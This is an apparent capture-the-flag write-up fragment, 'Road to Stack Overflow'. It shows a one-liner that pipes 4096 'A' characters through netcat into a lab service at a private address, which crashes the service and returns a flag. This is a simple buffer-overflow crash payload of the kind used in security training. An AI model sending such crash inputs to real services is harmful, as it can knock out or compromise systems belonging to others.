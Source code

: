 Welcome to the Road to Stack Overflow !

192.168.210.11:10000

```
➜  ~ python -c 'print "A"*0x1000' | nc 192.168.210.11 10000
Welcome to the "Road to Stackoverflow"
Crash me and the door will open for you.
Well done! Here is your flag: flag{welcome_to_the_road_to_stack_overflow}
```